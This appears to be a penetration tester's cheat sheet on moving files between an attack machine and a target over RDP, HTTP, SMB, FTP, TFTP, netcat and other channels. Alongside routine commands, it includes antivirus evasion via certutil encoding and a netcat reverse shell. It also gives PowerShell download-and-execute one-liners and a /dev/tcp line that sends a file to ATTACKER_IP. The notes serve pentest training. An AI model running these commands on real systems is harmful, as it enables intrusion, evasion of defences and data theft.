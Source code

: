     **Considerations: file size (executable packing); architecture (32 vs 64 bit); static vs dynamic libraries; EOL conversion (switch in Notepad++)
      Windows->Unix fix newlines:  sed 's/\r$//' linenum.sh > linenum2.sh

    Standard Protocols:
        RDP/Copy File:
            rdesktop -g 1600x800 -r disk:tmp=/usr/share/windows-binaries 192.168.30.30 -u username -p /dynamic-resolution
            xfreerdp /u:admin /p:password /cert:ignore /v:10.10.138.3 /workarea /drive:/localdir,share /dynamic-resolution +clipboard
            Windows connect:  mstsc /v:1.2.3.4
            File Copy/Paste:  server allows by default, client doesn't
                To Enable: Under Options > Local Resources, you need to click the More button and put a check mark next to Drives.
        SCP: Push or Pull
            Linux/Solaris: scp
            Windows: WinSCP/pscp/scp
            Upload:  scp file.txt kali@192.168.1.6:/tmp
            Download:  scp kali@192.168.1.6:/tmp/file.txt .
        HTTP:
            Linux:
                Server:  python -m SimpleHTTPServer [port]  \\  python -m http.server [port]  \\  php -S 0.0.0.0:8080
                    With Upload Option:  https://gist.github.com/UniIsland/3346170
                    HTTPS:
                        openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
                        sudo python3 HTTPSserver.py:
                           import http.server, ssl
                           server_address = ('0.0.0.0', 443)
                           httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
                           httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='localhost.pem', ssl_version=ssl.PROTOCOL_TLS)
                           httpd.serve_forever()
                Download:  wget http://192...:8000/file [-O /tmp/file]  \\  curl http://192...:8000/file -o /tmp/file
                    Bash Script Manual Curl:  https://www.hackingdream.net/2019/12/file-transfer-cheat-sheet-for-pentesters-oscp.html
                    Or in browser: http://...
                    Python:  python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’;  \\  python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’
                    Basic Bash:  bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /youfile.sh HTTP/1.1\r\nHost: ip\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh" 
            Windows:
                Server:  
                    python -m SimpleHTTPServer [port]  \\  python -m http.server [port]
                    Or if http already running: move file to web dir under C:\ ; *make sure it has an extension
                VBScript method (XP,2003): https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/
                Certutil:  certutil.exe -urlcache -split -f "http://192.168.1.2/exploit.exe" [outfile]
                    Avoid antivirus w/ Base64 encode:
                        certutil.exe -encode [inputFileName.exe] [encodedOutputFileName.txt]
                        certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt
                        certutil.exe -decode nc.txt nc.exe
                        test it: nc.exe [Attack box IP] 5555 -e cmd.exe
                Bitsadmin:  bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe
                Curl:  curl http://192.168.1.2/putty.exe -o putty.exe
                Or in browser: http://...
                Python download method above^^
                Powershell:
                    Interactive:
                        Download:  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
                            Or:  powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
                                 powershell -c "Invoke-WebRequest -Uri http://192.168.119.186/nc64.exe nc64.exe"
                                 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.186/winPEASany.exe','C:\Users\alice\Desktop\winPEASany.exe')"
                        Download & Execute w/o Saving:  powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
                            Or:  cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/Sherlock.ps1') | powershell -noprofile -
                    Non-Interactive (script method):
                        echo $storageDir = $pwd > wget.ps1; echo $webclient = New-Object System.Net.WebClient >>wget.ps1; echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1; echo $file = "exploit1-ouput.exe" >>wget.ps1; echo $webclient.DownloadFile($url,$file) >>wget.ps1
                        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
                    Newer PS Versions:  wget http://192.168.1.2/putty.exe -OutFile putty.exe  \\  powershell.exe wget http://192.168.1.2/putty.exe -OutFile putty.exe
        SMB:
            Server:  python /usr/share/pyshared/impacket/smbserver.py <sharename> <sharepath> [-smb2support]
                Windows:  net share Tools=C:\tools /grant:everyone,FULL  ;  Confirm: net share
            Client:
                Windows:
                    View Remote Shares:  net view \\computername /all [/USER:Administrator  \\  /USER:domain\user]
                    Download:  copy \\192.168.1.2\sharename\exploit.exe .
                    Upload:  copy nc2.exe \\10.10.14.17\SHARE\nc2.exe
                    Connect:  net use [K:] \\IP\ShareName [/USER:Administrator  \\  /USER:domain\user]
                        Disconnect:  net use /d \\[host]\[share name]  \\  net use /d k:
                    *Execute w/o Downloading:  \\10.10.14.18\SHARE\Chimichurri.exe 10.10.14.11 4445
                Linux:
                    View Shares:  smbclient -L 192.168.1.21 [-U raj%pass]
                    Connect:  smbclient //192.168.1.21/share [-U raj%pass]
                    Download one file:  smbget smb://192.168.11.10/Tools/abc.exe -u administrator -p password -o /tmp/abc.exe
                        Download recursively:  smbclient //192.168.11.10/Tools -U administrator%password -c 'prompt OFF;recurse ON;mget *'
        FTP:
            Server (Linux):  pip install pyftpdlib; python3 -m pyftpdlib -p 21 -u jeenali -P 123
            Client:
                Connect:  ftp <IP> [PORT]  \\  Browser:  ftp://...  \\  curl or wget [-r] ftp://...
                Download:  get ...
                Upload:  put ...
                Other commands:  help; binary; passive; ls; cd
                Non-Interactive Script Method (Client):
                    echo open 192.168.1.101 21> ftp.txt; echo USER uname>> ftp.txt; echo mysecretpassword>> ftp.txt; echo bin>> ftp.txt; echo GET wget.exe>> ftp.txt; echo bye>> ftp.txt
                    ftp -v -n -s:ftp.txt
        TFTP (Windows XP, 2003):
            Server (Linux):
          apt update && sudo apt install atftp; mkdir /tftp; chown nobody: /tftp; atftpd --daemon --port 69 /tftp; /etc/init.d/atftpd restart
          Or:  perl tftpd.pl <fileToShare>   (script from PW tools/cut-paste)
          Or:  sudo msfconsole; use auxiliary/server/tftp; set srvhost 192.168.1.2; set tftproot /tmp; exploit
            Client:
                Download:  tftp -i 192.168.1.2 GET file2.txt
                Upload:  tftp -i 192.168.1.2 PUT file1.txt
        Other Windows Methods:
            Meterpreter:  download file.txt /root/Desktop/  ;  upload...
            WinRM:  upload ...
            Powershell Remoting:  Copy-Item -ToSession $appsrv1 -Pathfile_to_copy.exe -Destination C:\Users\appadmin\Downloads
            Rcp

    Non-Standard Protocols:
        ***Confirm file hashes:
            Unix: md5sum
            Windows: certutil -hashfile <file> [MD5|SHA1], or fciv for XP
        Netcat:
            nc –lvp 8001 > out.txt  ;  nc HOST_IP 8001 < in.txt  \\  nc –lvp 8001 < in.txt  ;  nc HOST_IP 8001 > out.txt
            nc.exe –l -p 4444 < in.txt  ;  nc.exe -w 1 127.0.0.1 4444 > out.txt
        Socat:
            socat TCP4-LISTEN:443,fork file:file.txt
            socat TCP4:192.168.1.2:443 file:file.txt,create
        *No Tool on Linux Target (Target>Ops transfer):
            nc -nvlp 9001 > backup.7z  ;  cat file.7z > /dev/tcp/ATTACKER_IP/9001
        Terminal Window (copy/paste):
            Base64 encoding:
                Linux: base64 <file> > out64  \\  openssl enc -base64 <file> > out64
                Windows:  certutil -encode [infile] [outfile]  \\  PS methods (check pw dir)
            findstr /v CERTIFICATE outfile > removed_headers
            Copy:  type outfile|clip
                ****Both:  python -m base64 [infile] > [outfile]
            Paste:
                Linux:  cat > out.64
                Windows:  more > out.64
          Teraterm Slower Paste:  Setup > Additional Settings > Copy and Paste, "Paste delay per line">150ms
            Decoding:
                Linux: base64 -d <file> > out  \\  openssl enc -base64 -d <file> > out
            From Windows: ***remove header/footer first, and use -i
                Windows:  certutil -decode [infile] [outfile]  \\  powershell options
                Both:  python -m base64 -d [infile] > [outfile]

    Windows Tips:
        Finding world-writeable directories:  Get-ChildItem -Recurse | Get-Acl | out-string -stream | select-string -pattern "everyone"
            or in cmd: mkdir test (in C:\); or look carefully in Users for hidden writeable dirs.
        Limited Display:
            SCROLL DISPLAY FIRST 1110 (max) OF LINES OF FILE:    powershell -command "& {Get-Content output.txt -TotalCount 1110}"
            Last # of lines:   powershell -command "& {Get-Content output.txt | Select-Object -last 1110}"
            Total number of lines in file:  type out | find /c /v "" 
